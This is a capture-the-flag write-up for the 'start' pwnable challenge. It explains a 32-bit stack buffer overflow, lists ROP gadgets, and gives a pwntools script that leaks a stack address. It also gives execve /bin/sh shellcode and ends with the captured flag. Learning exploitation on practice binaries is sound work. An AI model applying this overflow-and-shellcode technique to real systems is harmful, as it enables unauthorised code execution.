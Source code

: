 # Start Write-up
Alright so my first steps were to download the binary and open it up in ghidra. Opening it up in ghidra yielded nothing because the program was a super basic opcodes. With no libraries. This made it really hard for ghidra to figure out what the functions were really doing. This meant I would have to open it up in GDB to see what was happening in the dissassembly.

I first ran the program to see what it did. All it did was send a 20-byte message:
`Let's start the CTF:`
then it gave a prompt. It seemed like anything you sent in the prompt would exit the program.

I opened the binary in GDB to find exactly that. Looking at the functions I found "\_start" was where all the magic happened. It was very crude instructions in 32-bit. It looked a little bit like this:

![[Pasted image 20220113144304.png]]

I was interested in this part:
```
xor	ebx,ebx
mov	dl,0x3c
mov	al,0x3
int 0x80
```
This essentially called `read(0, ???, 0x3c)`
The ??? was confusing, but then I read up above `mov ecx,esp` which meant that ecx was representing the stack, so it would be `read(0, stack, 0x3c)`
This meant there was an easy buffer overflow, but not as easy as I originally imagined. Essentially the stack looked like this:
```
0xffffbf04 ◂— 0x2774654c ("Let'")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
So when the program ran it would overwrite the stack with your input up to `0x3c` bytes. So if you typed `blah` the stack would look like:
```
0xffffbf04 ◂— 0x68616c62 ("blah")
0xffffbf08 ◂— 0x74732073 ('s st')
0xffffbf0c ◂— 0x20747261 ('art ')
0xffffbf10 ◂— 0x20656874 ('the ')
0xffffbf14 ◂— 0x3a465443 ('CTF:')
0xffffbf18 —▸ 0x804809d (_exit)
```
This means that you would have to type 20 characters before you hit the return address.
`0x3c` = 60 so you have 60-20 = 40 bytes of buffer overflow. Thats a good amount. I ended up looking at the ROPgadgets to see what I could do to change the control flow of the program:
`$ ROPgadget --binary ./start` 
```
0x0804809b : adc al, 0xc3 ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804808e : add al, 0xcd ; xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048099 : add esp, 0x14 ; ret 
0x08048086 : daa ; mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 0x080480a0 : inc eax ; int 0x80 
0x0804808f : int 0x80 
0x0804809a : les edx, ptr [ebx + eax*8] ; pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x08048095 : mov al, 3 ; int 0x80 
0x0804808d : mov al, 4 ; int 0x80 
0x0804808b : mov bl, 1 ; mov al, 4 ; int 0x80 
0x08048089 : mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80
0x08048093 : mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80 
0x0804809d : pop esp ; xor eax, eax ; inc eax ; int 0x80 
0x0804809c : ret 
0x08048090 : xor byte ptr [ecx], 0xdb ; mov dl, 0x3c ; mov al, 3 ; int 0x80 
0x0804809e : xor eax, eax ; inc eax ; int 0x80 
0x08048091 : xor ebx, ebx ; mov dl, 0x3c ; mov al, 3 ; int 0x80
```
Seeing this I realized my options were limited, but I decided to start trying things out. The first gadget I tried was: `0x080480a0 : inc eax ; int 0x80` since I knew it would change the function that gets called. What I got was `0x18 + 1` for my eax value which corresponded to the `stime` syscall. After trying different inputs I found that eax was being saved from the `read` function which would return the size of the input. Which was `0x18`. When I increased the size of the input, I could get different syscall codes untill I reached `0x3c`(the max read size). Looking at my options for possible syscalls led to nothing. So that idea was scrapped.

The next idea I had was to use shellcode in my input to run some code (maybe pop a shell). Looking at `vmmap` I realized that might be possible since the stack was executable. The addresses of the stack were randomized though, so I had to find a way to leak the stack. Looking at the ROPgadgets I saw this function:
`0x08048087 : mov ecx, esp ; mov dl, 0x14 ; mov bl, 1 ; mov al, 4 ; int 0x80`
Essentially this would print out 20 bytes from the stack. since we had already moved the stack pointer past the string that it gives, it would run: `write(1, stack, 0x14)` this is what my program looked like:
```python
#! /usr/bin/env python 
from pwn import * 
context.terminal = ['tmux', 'splitw', '-h']  
addr_ecx2 = 0x08048087
p = process("./start") 
gdb.attach(p, 'b _start') 
p.recv()
payload = b"A"*(0x14) 
payload += p32(addr_ecx2) 
p.send(payload) 
x = p.recv() 
print(hex(u32(x[0:4]))) 
print(hex(u32(x[4:8]))) 
print(hex(u32(x[8:12]))) 
p.interactive()
```
I was able to leak 3 addresses with one of them in the same page as the stack:(`x[0:4]`)
This was some really good news. It meant I could run shellcode directly. So I created a new program that would send Shellcode in my input and then send the program to that spot in the stack. This would be the control flow:
`_start` -> enter `"A"*0x14 + 0x08048087` -> `_start+39` = `0x08048087` -> read stack address -> enter `shellcode + stack address` -> `stack address`
The program I wrote did exactly that. My shellcode looked like this:
`"j\x0bXhn/shh//bi1\xc9\x99T[\xcd\x80"`
And it didn't work.

Why? The shellcode I thought was too long. I thought the shellcode was somehow breaking after like 10 characters. I spent an insane amount of time trying to get the shellcode to be small enough to fit into the space.
Then I looked really hard at what was happening. The instructions from my shellcode looked like this:
```
push $SYS_execve 
pop %eax
push $0
push $0x68732f6e 
push $0x69622f2f
xor %ecx, %ecx 
cltd 
push %esp 
pop %ebx 
int $0x80
```
I noticed that when the program got to `push $0x69622f2f` it would overwrite the rest of the shellcode. OF COURSE!!! The shellcode was on the stack and pushing values onto the stack would overwrite those values. 

All I had to do to solve it was place the shellcode at the end of my input so it would overwrite useless parts of the stack and boom! it worked:
```
$ ls
bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var
$ cd home
$ cd start
$ ls
flag
run.sh
start
$ cat flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```
The final expoit script is in this repo.
